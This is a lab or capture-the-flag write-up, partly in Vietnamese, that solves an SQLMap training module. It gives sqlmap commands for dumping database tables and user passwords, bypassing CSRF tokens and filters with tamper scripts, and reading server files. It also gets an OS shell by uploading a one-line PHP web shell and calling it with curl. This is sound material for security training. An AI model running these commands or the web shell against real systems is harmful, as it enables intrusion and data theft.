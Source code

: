 
# Running SQLMap on an HTTP Request

#### Questions

+ 1  What's the contents of table flag2? (Case #2)

```zsh
sqlmap -r case2.txt -p id --dbms=MySQL -D testdb -T flag2 --dump -t 10 --batch
```

+ 1  What's the contents of table flag3? (Case #3)


```zsh
sqlmap -r case3.txt --risk=2 --level=3 --cookie='id=*' --dbms=MySQL -D testdb -T flag3 --dump --threads=10 --batch
```

+ 1  What's the contents of table flag4? (Case #4)

```zsh
sqlmap -r case4.txt --risk=2 --level=3 --dbms=MySQL -p id -D testdb -T flag4 --dump --threads=10 --batch
```

# Attack Tuning

#### Questions

+ 1  What's the contents of table flag5? (Case #5)

```zsh
sqlmap -u 'http://94.237.120.186:41670/case5.php?id=1' --risk=3 --level=5 --threads=10 --batch --text-only -p id --dbms=MySQL -D testdb -T flag5 --dump
```

+ 2  What's the contents of table flag6? (Case #6)

```zsh
sqlmap -u 'http://94.237.120.186:41670/case6.php?col=id' --risk=3 --level=5 --threads=10 --batch --text-only  --prefix="\`)" --dbms=MySQL -D testdb -T flag6 --dump
```

+ 1  What's the contents of table flag7? (Case #7)

```zsh
sqlmap -u 'http://94.237.48.12:50977/case7.php?id=1' --batch --risk=3 --level=5 --threads=10 -p id --dbms=MySQL -D testdb -T flag7 --dump --technique=U --union-cols=5 --hex
```

# Database Enumeration
#### Questions
 What's the contents of table flag1 in the testdb database? (Case #1)

```zsh
sqlmap -u 'http://94.237.48.12:50977/case1.php?id=1' --batch --risk=3 --level=5 --threads=10 -p id --dbms=MySQL -D testdb -T flag1 -C content --dump
```

# Advanced Database Enumeration
#### Questions


 What's the name of the column containing "style" in it's name? (Case #1)

```zsh
sqlmap -u 'http://94.237.48.12:50977/case1.php?id=1' --batch --risk=3 --level=5 --threads=10 -p id --dbms=MySQL --search -C 'style'
```

+ 1  What's the Kimberly user's password? (Case #1)

```zsh
sqlmap -u 'http://94.237.48.12:50977/case1.php?id=1' --risk=3 --level=5 --threads=10 -p id --dbms=MySQL -D testdb -T users -C id,email,name,password --where "name like '%Kimberly%'" --dump
```

# Bypassing Web Application Protections


#### Questions
+ 1  What's the contents of table flag8? (Case #8)

```zsh
sqlmap -u 'http://94.237.56.47:44355/case8.php'  --risk=2 --level=3 --data="id=2&t0ken=DB1X8bKVmPHedhApzNs9aW4u8KDhM9nuZj8SVMi0Ms" --dbms=MySQL -D testdb -T flag8 --dump -p id --csrf-token="t0ken" --batch
```

+ 1  What's the contents of table flag9? (Case #9)

```zsh
sqlmap -u 'http://94.237.56.47:44355/case9.php?id=1&uid=812836763' --risk=2 --level=3 -p id --randomize=uid --batch --dbms=MySQL -D testdb -T flag9 --dump --threads=3 --technique=BT --hex --time-sec=6
```

+ 1  What's the contents of table flag10? (Case #10)

 ```zsh
sqlmap -u 'http://94.237.56.47:44355/case10.php' --data="id=1" --threads=10 --dbms=MySQL -D testdb -T flag10 --risk=2 --level=3 --dump --random-agent --technique=BT
```

+ 1  What's the contents of table flag11? (Case #11)

```zsh
sqlmap -u 'http://94.237.54.192:59341/case11.php?id=1' --risk=3 --level=5 --dbms=MySQL -D testdb -T flag11 -C Content --dump --threads=10 --tamper=between,greatest,least --batch --random-agent -p id --technique=B
```

# OS Exploitation

#### Questions

+ 1  Try to use SQLMap to read the file "/var/www/html/flag.txt".

```zsh
sqlmap -u 'http://94.237.48.12:58722/?id=1' --risk=3 --level=5 --dbms=mysql -p id --threads=10 --technique=BET --file-read "/var/www/html/flag.txt"
```

+ 1  Use SQLMap to get an interactive OS shell on the remote host and try to find another flag within the host.

```zsh
sqlmap -u 'http://94.237.48.12:58722/?id=1' --risk=3 --level=5 --dbms=mysql -p id --threads=10 --technique=BET --os-shell
```

or

```zsh
echo '<?php system($_GET["cmd"]); ?>' > shell.php
```

```zsh
sqlmap -u 'http://94.237.48.12:58722/?id=1' --risk=3 --level=5 --dbms=mysql -p id --threads=10 --technique=BET --file-write "shell.php" --file-dest "/var/www/html/shell.php"
```

```zsh
curl http://94.237.48.12:58722/shell.php?cmd=cat%20/flag.txt
```

## Skills Assessment

---

You are given access to a web application with basic protection mechanisms. Use the skills learned in this module to find the SQLi vulnerability with SQLMap and exploit it accordingly. To complete this module, find the flag and submit it here.

#### Questions

+ 3  What's the contents of table final_flag?

Home page

![](images/1.png)

Có các phần đáng chú ý là `add to cart`, `contact`,  `checkout` và một `search box` ở `blog`

Tuy nhiên chỉ có chức năng `add to cart` là hoạt động.

![](images/2.png)

Nó là `POST` method tới `action.php` với data dạng json, tham số là `id`

![](images/3.png)

Tôi sẽ lưu lại request này vào một file

![](images/4.png)

Tôi thử truy vấn thủ công, điều này cơ bản xác định được đây là `MySQL`

![](images/5.png)

Câu lệnh ban đầu, do dạng `json` trong request không cho phép space nên tôi thử dùng tamper này:

```zsh
sqlmap -r final --risk=3 --level=5 -p id --random-agent --dbms=mysql --threads=10 --tamper=space2comment,space2dash,space2hash --batch
```

Thật bất ngờ, chúng ta có kết quả:

![](images/6.png)

Tôi sẽ tối ưu lại truy vấn của mình một chút để tăng tốc độ

```zsh
sqlmap -r assesment --risk=3 --level=5 -p id --random-agent --dbms=mysql --threads=10 --tamper=between --technique=T --batch --current-user --is-dba
```

![](images/7.png)

Chúng ta sẽ thử lại lần nữa  vì có lẽ data bị lỗi nên không hiển thị tên người dùng. Tùy chọn `--flush-session` sẽ cần thiết để thử lại payload.

```zsh
sqlmap -r assesment --risk=3 --level=5 -p id --random-agent --dbms=mysql --threads=1 --tamper=between --technique=T --batch --current-user --search -T final_flag --flush-session
```

Đợi chờ là hạnh phúc thôi

![](images/8.png)